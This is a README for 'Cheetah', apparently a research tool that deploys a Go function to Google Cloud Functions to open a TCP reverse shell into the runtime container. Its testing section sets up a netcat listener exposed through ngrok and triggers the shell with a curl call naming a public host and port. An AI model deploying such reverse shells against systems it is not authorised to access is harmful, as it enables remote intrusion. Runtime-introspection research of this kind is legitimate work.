 # Puma Prey Cheetah

Cheetah is a Go function that can be deployed to the Google Cloud Platform to establish a TCP reverse shell for the purposes of introspecting the Cloud Functions container runtime.

## Installing Prerequisites

* [Node.js / NPM](https://nodejs.org/en/download/)

## Deploying The Function

### Serverless Framework

```bash
export GOPATH=/PATH/TO/cheetah
cd /PATH/TO/cheetah/src/cheetah
make
```

Follow the steps at the top of the `serverless.yml` file to generate a credentials file. Modify the `serverless.yml` file to point to your GCP project ID and the **absolute path** of the credentials file.

```bash
npm install
npx serverless deploy
```

### Native GCloud Commands

To deploy natively without the serverless framework, configure `gcloud` in the Terminal to authentication as the deployment service account. Then, deploy the function.

```bash
gcloud auth activate-service-account --key-file ~/.gcloud/keyfile.json
gcloud functions deploy cheetah --entry-point Cheetah --runtime go111 --trigger-http --service-account=xxx@xxx
```

## Testing in GCP

Set up a TCP listener for your reverse shell, such as with [Netcat](http://netcat.sourceforge.net/):

```bash
nc -l 4444
```

To make your listener accessible from the public internet, consider using a service like [ngrok](https://ngrok.com/):

```bash
ngrok tcp 4444
```

Navigate to your function, supplying your connection details:

```bash
curl 'http://us-central1-YOUR_GOOGLE_CLOUD_PLATFORM_PROJECT_ID.cloudfunctions.net/Cheetah?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

Your listener will now act as a reverse shell for the duration of the function invocation. You can adjust the function timeout in the serverless.yml file.

## Teardown

```bash
npx serverless remove
```

## Linting

```bash
npm run lint
```

## Serverless Go Template

Creating the original function template using the serverless framework.

```bash
cd src
serverless create --template google-go --path cheetah
```

## Exploring Further

Refer to [Serverless Docs](https://serverless.com/framework/docs/providers/google/) for more information.
